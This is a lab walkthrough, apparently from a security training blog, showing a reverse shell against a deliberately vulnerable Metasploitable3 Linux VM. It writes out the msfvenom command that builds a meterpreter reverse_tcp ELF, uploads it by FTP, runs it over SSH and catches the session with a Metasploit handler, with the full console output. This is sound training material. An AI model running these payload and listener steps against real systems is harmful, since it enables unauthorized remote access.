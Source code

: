 ```yaml
---
title: Reverse shell - msfvenom
date: 2023-06-18
description: Metasploitable3 (Ubuntu) - Reverse shell - msfvenom
tags: 
    - Metasploitable3 Linux Edition
    - metasploit
    - msfvenom
    - reverse shell
categories:
    - Metasploitable3 Linux Edition
    - Parrot OS
toc: false
---
```


## Target: Metasploitable 3 Linux

## Tool: Metasploit

## Vulnerability: Reverse shell

Reverse shell

Step 1: We will first need to create a payload for our Metasploitable VM.

```shell
[msf](Jobs:0 Agents:0) >> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.2.16 LPORT=5555 -f elf -o reverse-sh.elf
[*] exec: msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.2.16 LPORT=5555 -f elf -o reverse-sh.elf

Overriding user environment variable 'OPENSSL_CONF' to enable legacy functions.

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: reverse-sh.elf
[msf](Jobs:0 Agents:0) >> 
[msf](Jobs:0 Agents:0) >> file reverse-sh.elf
[*] exec: file reverse-sh.elf

reverse-sh.elf: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, no section header
[msf](Jobs:0 Agents:0) >> 
```

Step 2: Place the payload file on the target machine using ftp.

```shell
┌─[parrot@parrot]─[~]
└──╼ $ftp 10.0.2.28
Connected to 10.0.2.28.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.0.2.28]
Name (10.0.2.28:parrot): vagrant
331 Password required for vagrant
Password: 
230 User vagrant logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put reverse-sh.elf
local: reverse-sh.elf remote: reverse-sh.elf
229 Entering Extended Passive Mode (|||3046|)
ftp: Can't connect to `10.0.2.28:3046': Connection timed out
200 EPRT command successful
150 Opening BINARY mode data connection for reverse-sh.elf
100% |***********************************|   207        1.57 MiB/s    00:00 ETA
226 Transfer complete
207 bytes sent in 00:00 (29.30 KiB/s)
Already connected to 10.0.2.28, use close first.
ftp> ls
200 EPRT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 vagrant  vagrant  86562816 Oct 29  2020 VBoxGuestAdditions.iso
-rw-r--r--   1 vagrant  vagrant       207 Feb 21 03:10 reverse-sh.elf
226 Transfer complete
ftp> by
221 Goodbye.
┌─[parrot@parrot]─[~]
└──╼ $
```

Step 3: Make this file executable on our Metasploitable VM.

```shell
┌─[parrot@parrot]─[~]
└──╼ $ssh vagrant@10.0.2.28
The authenticity of host '10.0.2.28 (10.0.2.28)' can't be established.
ED25519 key fingerprint is SHA256:Rpy8shmBT8uIqZeMsZCG6N5gHXDNSWQ0tEgSgF7t/SM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.28' (ED25519) to the list of known hosts.
vagrant@10.0.2.28's password: 
Welcome to Ubuntu 14.04.6 LTS (GNU/Linux 3.13.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
Last login: Wed Feb 21 02:47:29 2024
vagrant@metasploitable3-ub1404:~$ chmod +x reverse-sh.elf
vagrant@metasploitable3-ub1404:~$ ls -al reverse-sh.elf 
-rwxr-xr-x 1 vagrant vagrant 207 Feb 21 03:10 reverse-sh.elf
```

Step 4: Open a new terminal. Establish the listener for the reverse connection which our payload will be sending to our machine.

```shell
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 10.0.2.16
lhost => 10.0.2.16
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 5555
lport => 5555
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.0.2.16:5555 
[*] Sending stage (1017704 bytes) to 10.0.2.28
[*] Meterpreter session 1 opened (10.0.2.16:5555 -> 10.0.2.28:43945) at 2024-02-21 03:19:30 +0000
```

Step 5: Execute the payload on our target. Navigate back to terminal screen with the established SSH connection. Then, type the following:

```shell
vagrant@metasploitable3-ub1404:~$ ./reverse-sh.elf
```

Step 6: Return to the terminal screen which is running the Metasploit listener. You will see a meterpreter session has started and is now open. We have sucessfully established a stable shell! We can access the shell by typing “shell” into meterpreter. We can return to the Meterpreter interface from the shell by typing “exit” into the shell.

```shell
(Meterpreter 1)(/home/vagrant) > shell
Process 1930 created.
Channel 1 created.

uname -a
Linux metasploitable3-ub1404 3.13.0-170-generic #220-Ubuntu SMP Thu May 9 12:40:49 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
whoami
vagrant
id
uid=900(vagrant) gid=900(vagrant) groups=900(vagrant),27(sudo)

exit
(Meterpreter 1)(/home/vagrant) > 

```
